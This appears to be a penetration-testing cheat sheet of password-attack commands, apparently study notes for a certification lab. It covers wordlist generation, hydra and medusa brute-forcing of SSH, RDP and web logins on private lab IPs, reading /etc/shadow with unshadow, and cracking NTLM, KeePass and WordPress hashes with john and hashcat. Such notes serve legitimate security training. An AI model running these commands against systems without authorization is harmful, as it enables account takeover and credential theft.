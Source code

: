 # Password Attacks

## references

<http://gchq.github.io/CyberChef/>
<http://openwall.info/wiki/john/sample-hashes>

## dictionary

```bash
/usr/share/wordlists/
/usr/share/seclist/

cewl www.megacorpone.com -m 6 -w megacorpone-cewl.txt
john --wordlist=megacorpone-cewl.txt --rules --stdout > megacorpone-john.txt

crunch 6 8 -f /usr/share/crunch/charset.lst mixalpha-numeric-all-space -o crunch.txt
```

## online

### crackstation

<https://crackstation.net/>

### medusa

```bash
medusa -d
medusa -M http -q

medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin -T 10

```

### hydra

```bash
hydra -l george -P ~/OSCP/rockyou.txt -s 2222 ssh://192.168.161.201
hydra -L ./user.txt -p "SuperS3cure1337#" rdp://192.168.161.202

hydra -l admin -P ~/OSCP/rockyou.txt 192.168.161.201 http-get 

hydra -l admin -P ~/OSCP/rockyou.txt 192.168.161.201 http-post-form "/index.php:fm_usr=^USER^&fm_pwd=^PASS^:Login failed"
hydra 10.1.0.2 http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid Password!" -l admin -P /usr/share/wordlists/rockyou.txt -t 10 -w 30 -o hydra-http-post-form.txt
```

## offline

### hashid

```bash
hashid '$2y$10$XrrpX8RD6IFvBwtzPuTlcOqJ8kO2px2xsh17f60GZsBKLeszsQTBC'
hashid -m hash.txt
hashid -j
```

### john

```bash
unshadow /etc/passwd /etc/shadow > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

### hashcat

```bash
hashcat --help | grep -ni ntlm
hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule

hashcat --help | grep -i "KeePass"
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force --show

hashcat --help | grep -ni \$p 
hashcat -m 400 wp.hash ~/OSCP/rockyou.txt 
```

## NTLM
